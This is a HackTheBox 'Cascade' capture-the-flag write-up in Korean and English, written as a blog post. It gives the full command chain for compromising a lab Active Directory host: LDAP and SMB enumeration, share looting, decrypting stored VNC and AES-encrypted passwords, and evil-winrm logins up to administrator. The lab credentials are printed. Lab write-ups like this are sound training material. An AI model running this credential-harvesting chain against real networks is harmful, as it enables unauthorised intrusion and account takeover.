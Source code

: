 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - AD
  - OSCP
  - LDAP
  - VNC_Decrypt
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM [s.smith]
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](/assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```Powershell
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
Get-ADUser -identity s.smith -properties *
net user s.smith

# s.smith 로그인 시 실행되는 파일 찾기
dir C:\ -recurse -filter MapAuditDrive.vbs -ErrorAction SilentlyContinue
type C:\Windows\SYSVOL\sysvol\cascade.local\scripts\MapAuditDrive.vbs
type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs
```

![](/assets/images/posts/2025-03-04-Cascade/4f2aa2c333a1674855e684e3995f3069_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/bdd8034515a299f96fba98278f6552b3_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/faab4f175aa18ad9e1a2ba1c12f52c6d_MD5.jpeg)

### SMB Enum (s.smith Auth)
```bash
# smb re-enum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Audit$ -U 's.smith' --password='sT333ve2'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *

# db 내용 보기 / ArkSvc : BQO5l5Kj9MdErXx6Q6AGOw==
cat RunAudit.bat
sqlitebrowser DB/Audit.db
file CascAudit.exe
```

![](/assets/images/posts/2025-03-04-Cascade/df502df7219d87e613d796e2f72e614b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/9e2c997ddba01c1a6a941702ea16119b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/23c44942133cbb507099c06f59d0d9f2_MD5.jpeg)
### AvaloniaILSpy
```bash
# 설치
wget https://packages.microsoft.com/config/ubuntu/19.10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install apt-transport-https
sudo apt update
sudo apt install dotnet-sdk-8.0

sudo apt install mono-devel

git clone https://github.com/icsharpcode/AvaloniaILSpy.git
cd AvaloniaILSpy/
git submodule update --init --recursive

dotnet tool restore
dotnet cake

cd artifacts/linux-x64
./ILSpy
```
![](/assets/images/posts/2025-03-04-Cascade/6c980fff9695c52e210688db1e17f2b8_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1f796170193fca06adce2ff8174a5274_MD5.jpeg)![](/assets/images/posts/2025-03-04-Cascade/e6138fbb7da00937f08330bc31148629_MD5.jpeg)
### AES Decrypt in Python
```Python
# Python version < 3.12
pip install pycrypto
# Python version >= 3.12
pip install pycryptodome

import base64
from Crypto.Cipher import AES

key = "c4scadek3y654321"
iv = "1tdyjCbY1Ix49842"
encrypt_pwd = "BQO5l5Kj9MdErXx6Q6AGOw=="
unpad = (lambda s: s[:-ord(s[len(s)-1:])])

def AES_decrypt(enc):
    enc = base64.b64decode(enc)
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv.encode())
    dec = cipher.decrypt(enc)
    return unpad(dec).decode('utf-8')

decrypt = AES_decrypt(encrypt_pwd)

print(decrypt)
```

![](/assets/images/posts/2025-03-04-Cascade/ef8fbde33f7b947e0fee9329585893ba_MD5.jpeg)
### evil-WinRM [ArkSvc]
```bash
evil-winrm -i 10.129.2.135 -u arksvc -p w3lc0meFr31nd
```
![](/assets/images/posts/2025-03-04-Cascade/845ad1d6dd789ed716f2454b5a543263_MD5.jpeg)
#### In Evil-WinRM
> About [AD Recycle Bin] : 삭제된 Active Directory 객체를 보관하고 복원할 수 있는 기능이 있는 그룹이다.   

```Powershell
net user arksvc

Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin) (isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```

![](/assets/images/posts/2025-03-04-Cascade/f0b1fe54243905d798392afa52414bc5_MD5.jpeg)![](/assets/images/posts/2025-03-04-Cascade/cceffeff5ef51acb92e7131bd7848153_MD5.jpeg)

### evil-WinRM [Administrator]
```bash
echo YmFDVDNyMWFOMDBkbGVz | base64 --decode
evil-winrm -i 10.129.2.135 -u administrator -p baCT3r1aN00dles
```
![](/assets/images/posts/2025-03-04-Cascade/0a90d1183bfee0db1a4d1fdaffb55757_MD5.jpeg)
## End
![](/assets/images/posts/2025-03-04-Cascade/5ccbf628d10deda4a6d14e247656ab01_MD5.jpeg)